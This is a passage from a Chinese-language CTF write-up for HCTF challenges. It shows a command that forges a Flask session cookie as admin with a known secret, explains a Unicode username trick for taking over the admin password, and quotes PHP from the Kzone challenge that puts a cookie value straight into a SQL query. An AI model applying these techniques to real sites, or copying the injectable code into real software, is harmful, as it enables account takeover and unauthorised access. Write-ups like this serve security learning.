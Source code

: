 然后就可以伪造session:

```
qianfa@qianfa:~/Desktop/hctf$ python session_manager.py encode -t "{u'csrf_token': '0016abb6fb482a0f7f3cf5b0852f6f3feffc7326', u'user_id': u'10', u'name': u'admin', u'image': 'YgHs', u'_fresh': True, u'_id': 'de9b487029aebec6162a0881c5c3804700c8d2e92e6094887f6be657ea6451a088d5271c5fa31c062927de5a3ae7ddd51be79a9a6d325e212178dd9e6491231e'}" -s "ckj123"
.eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBTiUvj3DCG6Xqnv3BpMxPP8A9uFusQ.W-gwhQ.zuBhgwJ6v79wrzxKJSPGygiZ56M
```

这时候，就可以得到flag了。

### 方法二

参考链接:`http://blog.lnyas.xyz/?p=1411`

注册的用户名经过strlower后才与已有的用户名进行比较。

![](/assets/hctf/t0109f51089bc019aa6.png)

在change密码这里，更改密码之前又经过了一次strower,

![](/assets/hctf/t01c1054d9fd6eecb31.png)

注册一个ᴬdmin用户，登陆可以看到第一次strower把ᴬdmin变成了Admin，与admin不同所以注册成功。

然后更改密码，这里是第二次strower操作，Aadmin会变成admin，最终更改的是admin的密码。 最后退出，再用正常的admin登陆即可

方法三:

条件竞争

## Kzone

问题主要出在member.php中：

```
if (isset($_COOKIE["islogin"])) {
    if ($_COOKIE["login_data"]) {
        $login_data = json_decode($_COOKIE['login_data'], true);
        $admin_user = $login_data['admin_user'];
        $udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
        if ($udata['username'] == '') {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
        $admin_pass = sha1($udata['password'] . LOGIN_KEY);
        if ($admin_pass == $login_data['admin_pass']) {
            $islogin = 1;
        } else {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
    }
}
```
